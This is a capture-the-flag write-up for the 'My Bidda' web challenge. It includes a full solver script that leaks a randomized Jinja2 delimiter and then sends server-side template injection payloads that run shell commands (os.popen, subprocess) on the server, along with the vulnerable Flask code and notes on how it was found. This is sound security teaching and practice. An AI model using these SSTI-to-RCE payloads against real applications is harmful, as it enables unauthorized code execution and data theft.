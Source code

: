 # My Bidda

## Description

> Cities are way overcrowded and noisy, I want to live in a small town. Tell me about your bidda.
>
> One of my friends found a vulnerability but he told me it's fixed now, can you check?
>
> Website: <http://mybidda.challs.srdnlen.it>
>
> Attachments: my_bidda.zip

## Setup

```bash
cd src
docker-compose up
```

## solver.py

```python
import requests
import base64
import json
import re

# BASE_URL = "http://mybidda.challs.srdnlen.it"
BASE_URL = "http://localhost"


def leak_random_string(s: requests.Session) -> str:
    resp = s.get(
        f"{BASE_URL}/inspect_bidda",
        params={"name": "block_start_string"},
        cookies={
            "biddas": base64.b64encode(
                json.dumps([{"name": "dummy"}]).encode()
            ).decode()
        },
    )

    m = re.findall(r"Did you want to see the default bidda called @(.*?)\?", resp.text)
    assert len(m) == 1

    leak_random_string = m[0]
    return leak_random_string


def rce(s: requests.Session, random_string: str) -> str:
    # This payload is not working in local environment because of no subprocess and os.
    # payload = """
    # {% for x in ''.__class__.__mro__[1].__subclasses__() if "Popen" in x.__name__ %}
    #     {{ x('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip() }}
    # {% endfor %}
    # """.replace(
    #     "\n", ""
    # ).strip()

    # available payload:
    payload = """{{ x.__init__.__builtins__.__import__('os').popen('cat flag.txt').read() }}"""
    # payload = """{{ x.__init__.__builtins__.__import__('subprocess').Popen('cat flag.txt',shell=True,stdout=-1).communicate()[0] }}"""
    # payload = """{{ x.__init__.__builtins__.__import__('subprocess').run('cat flag.txt',shell=True,capture_output=True).stdout }}"""
    # payload = """{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"""

    payload = payload.replace("{{", "!" + random_string)
    payload = payload.replace("}}", random_string + "!")
    payload = payload.replace("{%", "@" + random_string)
    payload = payload.replace("%}", random_string + "@")

    data = {"name": payload, "image": "b", "population": "c"}

    resp = s.post(f"{BASE_URL}/send_bidda", data=data)

    return resp.text


def main():
    s = requests.Session()
    # s.proxies = {"http": "http://127.0.0.1:8080"}

    # Step 1: Leak random_string
    random_string = leak_random_string(s)

    # Step 2: RCE with SSTI
    resp = rce(s, random_string)
    print(resp)


if __name__ == "__main__":
    main()
```

```console
$ python3 solver.py
<h1> srdnlen{be_careful_with_instruction_set_randomization}
 </h1> <h2> c </h2> <img src="b" />
```

## Solution

The attached my_bidda.zip archive is the following:

```console
$ unzip -t my_bidda.zip
Archive:  my_bidda.zip
    testing: app.py                   OK
    testing: flag.txt                 OK
    testing: templates/index.html     OK
    testing: templates/inspect_bidda.html   OK
    testing: templates/send_bidda.html   OK
No errors detected in compressed data of my_bidda.zip.
```

Looking at the provided files.

```python
# app.py
@app.route("/send_bidda", methods=["GET", "POST"])
def send_bidda():
  if request.method == "GET":
    return env.get_template("send_bidda.html").render()
  else:
    name = request.form.get("name")
    population = request.form.get("population")
    image = request.form.get("image")
    template = f"<h1> { name } </h1> <h2> { population } </h2> <img src=\"{ image }\" />"

    biddas = request.cookies.get("biddas")
    if biddas:
      biddas = json.loads(base64.b64decode(biddas))
      biddas.append({"name": name,"population" : population, "image" :image})
    else:
      biddas = [{"name": name,"population" : population, "image" :image}]
    resp = make_response(env.from_string(template).render())
    resp.set_cookie("biddas", base64.b64encode(json.dumps(biddas).encode()).decode())
    return resp
```

RCE with SSTI can occur because name, population and image variables embed in f-string are controllable by user and not escaped in server side.
If name is `{{ 7*7 }}` and it returns 49, We can SSTI.
Moreover, we can RCE by using an existing object such as subprocess or os.system.

The following is a reference for the RCE payload.

- [Jinja2 SSTI - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
- [Server Side Template Injection - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#jinja2)

But `!<random_string>` and `<random_string>!` are used intead of `{{` and `}}`:

```python
# app.py
random_string = ''.join(random.choice(string.ascii_letters) for i in range(10))
env = jinja2.Environment(loader=PackageLoader("app"),
                         block_start_string='@'+random_string,
                         block_end_string=random_string+'@',
                         variable_start_string='!'+random_string,
                         variable_end_string=random_string+'!')
```

[API — Jinja Documentation (3.0.x)](https://jinja.palletsprojects.com/en/3.0.x/api/#jinja2.Environment)

> variable_start_string
>
> The string marking the beginning of a print statement. Defaults to '{{'.

`random_string` is genereated at server startup and we need to leak this for RCE.

```python
# app.py
@app.get("/inspect_bidda")
def inspect_bidda():
  name = request.args.get("name")
  biddas = request.cookies.get("biddas")
  if biddas:
    biddas = json.loads(base64.b64decode(biddas))
    for bidda in biddas:
      if bidda["name"] == name:
        return env.get_template("inspect_bidda.html").render(env=env, bidda=bidda)
    return env.get_template("inspect_bidda.html").render(env=env, name=name)
  else:
    return env.get_template("send_bidda.html").render()
```

```html+jinja
{# inspect_bidda.html #}
{% if bidda %}
<div class="column">
  <img class="demo cursor" src="{{ bidda.image }}" style="width:100%" alt="{{ bidda.name }} - Population: {{ bidda.population }}">
</div>
{% else %}
  {% set tmp = env.__dict__.get(name) %}
  {% if tmp == None %}
  <div class="column">
    <img class="demo cursor" src="https://lh6.googleusercontent.com/Bu-pRqU_tWZV7O3rJ5nV1P6NjqFnnAs8kVLC5VGz_Kf7ws0nDUXoGTc7pP87tyUCfu8VyXi0YviIm7CxAISDr2lJSwWwXQxxz98qxVfMcKTJfLPqbcfhn-QEeOowjrlwX1LYDFJN" style="width:100%" alt="404 Bidda Not Found - Population: 0">
  </div>
  {% else %}
  <div class="column">
    <p>Did you want to see the default bidda called {{ tmp }}?</p>
    <a href="/">In the home you can see them all</a>
  </div>
  {% endif %}
{% endif %}
```

`set tmp = env.__dict__.get(name)` is interesting.
If we can set `name` to `block_start_string` in query string and call `env.__dict__.get('block_start_string')`, we can leak `random_string`.
Fortunately, if the name in cookie and query string are different, we can call this.
